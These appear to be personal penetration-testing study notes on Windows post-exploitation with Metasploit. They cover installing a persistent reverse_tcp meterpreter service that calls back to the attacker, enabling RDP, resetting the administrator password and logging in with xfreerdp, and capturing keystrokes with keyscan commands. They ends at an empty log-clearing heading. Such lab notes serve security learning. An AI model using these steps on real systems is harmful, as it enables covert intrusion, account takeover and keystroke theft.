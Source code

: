 ### Skipped

* Windows Privilege Escalation:Token Impersonation With Incognito 
* Dumping Hashes With Mimikatz
* Pass-the-Hash With PSExec
 
All the above were covered in windows exploitation section [[link here]]

### Establising Persistence on windows

prereq: meterpreter session already openned on target

* put the meterpreter to background
* search platform:windows persistence
    * use exploit/windows/local/persistence_service (This module is very stable and spawns a new service to maintain connection back to C2)
    * set session <id>
    * set payload windows/meterpreter/reverse_tcp (only works with 32 bit meterpreter)
    * set LHOSTS ; set LPORT ; run
    * This will result in a meterpreter session. At this point a persistant connection is established. Even if the meterpreter session is closed/restarted, the target will automatically reach back to set LHOST and LPORT. Since this module spawns a new service, this is resistant to restarts or config change on target.
    * NOTE: I noticed there is no passphrase/password set for reverse_tcp connections, there are also no option to provide these on this module. This can be risky if the attackers IP is acquired by an adversary. Extra attention is needed while using this.

### Enabling RDP

Prereq: meterpreter session already opened on target

* search enable_rdp
    * use post/windows/manage/enable_rdp
    * set SESSION <id>
    * it is recommended to create a new user & password
    * run
    * RDP is now enabled
    * reset Administrator password (Next time the actual administrator wont be able use thier own password, which is a clear giveaway that the system is compromised)
        * open meterpreter
        * shell
            * net user administrator new_password
    * xfreerdp /u:administrator /p:owned_12321 /v:10.4.18.148
    
### Windows file and keylogging

prereq: meterpreter

* from within meterpreter
    * keyscan_start : starts capturing
    * keyscan_dump : dump all the capture inputs ( all keyboard input will be captured, it doesn't matter which application was used)

### Windows: Clearing event logs

